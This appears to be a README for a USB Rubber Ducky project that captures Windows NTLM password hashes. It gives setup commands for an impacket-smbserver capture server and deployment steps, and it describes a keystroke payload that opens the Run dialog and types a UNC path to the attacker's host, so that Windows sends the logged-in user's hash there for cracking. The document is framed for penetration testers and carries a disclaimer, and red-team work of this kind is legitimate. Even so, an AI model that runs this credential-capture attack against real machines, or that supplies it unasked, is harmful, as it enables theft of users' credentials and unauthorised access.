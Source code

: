 # Password Hash Grabber (Windows)

This project utilizes a USB Rubber Ducky to capture Windows password hashes in less than two seconds, demonstrating a powerful method for assessing policy compliance and information security awareness. By executing a simple DuckyScript payload, it initiates a CIFS/SMB connection to a targeted listening server to obtain user hash information. This technique is effective across almost all versions of Microsoft Windows and requires minimal privileges, making it a valuable tool for penetration testers and internal red teams.

The critical component of this attack is impacket-smbserver from the Impacket suite, an open-source tool designed for such operations. The server needs to be set up on the target network to capture the NTLM hash, timestamp, workstation ID, and user details as Windows attempts to authenticate with the CIFS share.

## Disclaimer

The tools and scripts provided in this repository are made available for educational purposes only and are intended to be used for testing and protecting systems with the consent of the owners. The author does not take any responsibility for the misuse of these tools. It is the end user's responsibility to obey all applicable local, state, national, and international laws. The developers assume no liability and are not responsible for any misuse or damage caused by this program. Under no circumstances should this tool be used for malicious purposes. The author of this tool advocates for the responsible and ethical use of security tools. Please use this tool responsibly and ethically, ensuring that you have proper authorization before engaging any system with the techniques demonstrated by this project.

## Features

This DuckyScript is designed for rapid exfiltration of Windows password hashes by exploiting the SMB (Server Message Block) protocol. When executed, it forces a Windows machine to attempt an SMB connection to a predefined server, triggering an automatic hash exchange process part of the SMB protocol's authentication mechanism.

## Prerequisites

- **Operating System**: Tested on Windows 10 x64, version 22H2, Kali Linux 2023.4, Ubuntu 22.04.4 LTS.
- **Payload Studio**: Tested with Payload Studio Pro version 1.3.1
- **DuckyScript Version**: DuckScript 3.0 Advanced
- **Hardware**: USB Rubber Ducky (2022)

## Usage

### **Step 1: Prepare the impacket-smbserver Environment (Kali Linux)**

1. **Set Up impacket-smbserver**:
    - Verify installation by running one of the Impacket tools or check the installed version: `impacket-smbserver --version`
    - Choose a directory where you want the SMB server to store captured hashes (e.g., `/tmp/`).
    - Run an SMB server using `impacket-smbserver`, by specifying a share name and a path to the folder you want to share, for example: `sudo impacket-smbserver TMP /tmp/`
        
        ```bash
        sudo impacket-smbserver <SHARE_NAME> <PATH_TO_FOLDER>
        ```
        
    - On the Windows target machine, you can access the share by navigating to `\\[KALI_IP_ADDRESS]\TMP` in the File Explorer, where `[KALI_IP_ADDRESS]` is the IP address of your Kali VM.

### **Step 1: Prepare the impacket-smbserver Environment (Ubuntu)**

1. **Install pipx:**
    - Ensure Python3 and pip are installed first.
    - Install `pipx` using pip:
        
        ```bash
        python3 -m pip install --user pipx
        python3 -m pipx ensurepath
        ```
        
2. **Install Impacket**: 
    - With `pipx` installed, you can now proceed to install Impacket. To install the latest stable release of Impacket, run: `python3 -m pipx install impacket`
        - This command will download and install Impacket and its dependencies in an isolated environment while making the Impacket tools available system-wide.
    - Verify installation by running one of the Impacket tools or check the installed version: `impacket-smbserver --version`
3. **Set Up smbserver.py**:
    - Choose a directory where you want the SMB server to store captured hashes (e.g., `/tmp/` on Linux).
    - Run an SMB server using `impacket-smbserver`, by specifying a share name and a path to the folder you want to share, for example: `sudo impacket-smbserver TMP /var/`
        
        ```bash
        sudo impacket-smbserver <SHARE_NAME> <PATH_TO_FOLDER>
        ```
        
    - On the Windows target machine, you can access the share by navigating to `\\[KALI_IP_ADDRESS]\TMP` in the File Explorer, where `[KALI_IP_ADDRESS]` is the IP address of your Kali VM.

### Step 2: **Create the DuckyScript Payload**

- **Write the Payload**: Ensure you replace `example.com` with the actual hostname or IP address of the server running  ****`impacket-smbserver`.

### **Step 3: Deploy the Payload**

- **Load and Execute**: Load the DuckyScript payload onto your USB Rubber Ducky, plug it into the target Windows machine, and let it execute the script. The script quickly opens a Run dialog, attempts to connect to the specified CIFS share, and in the process, sends the NTLM hash to the smbserver.

### Step 4: Capture and Utilize the Hash

- **Monitor impacket-smbserver Output**: The smbserver will output the captured hash information, including the timestamp, workstation ID, user, and NTLM hash. This information can be used for further analysis or cracking attempts.

## How It Works

- **Host Setup**: Before deployment, you must set up an SMB server using Impacket's `impacket-smbserver`. This server will listen for incoming SMB connections and capture NTLM hashes passed during the authentication attempt.
- **Script Execution**: Upon plugging in the USB Rubber Ducky, the script waits for 1 second (`DELAY 1000`) to ensure the system recognizes the device. It then simulates the key combination `GUI r` to open the Run dialog.
- **Connection Initiation**: The script types `\\[HOSTNAME]\[SHARE_NAME]` and hits Enter, where `[HOSTNAME]` is the address of your SMB server and `[SHARE_NAME]` the SMB share name. This action attempts to initiate an SMB connection to the specified server.
- **Hash Capture**: As Windows tries to authenticate with the SMB server, the user's NTLM hash, username, and workstation ID are transmitted. The Impacket `impacket-smbserver` captures this information.
- **Rapid Execution**: This entire process is designed to execute in less than two seconds, showcasing the speed and stealthiness of the attack. It highlights the potential risk and impact of physical access vulnerabilities.

## Output Example

![DuckyScript Payload Results](/images/impacket_smb_results.png)

## Contributing

If you have an idea for an improvement or if you're interested in collaborating, you are welcome to contribute. Please feel free to open an issue or submit a pull request.

## License
This project is licensed under the GNU General Public (GPL) License - see the [LICENSE](LICENSE) file for details.
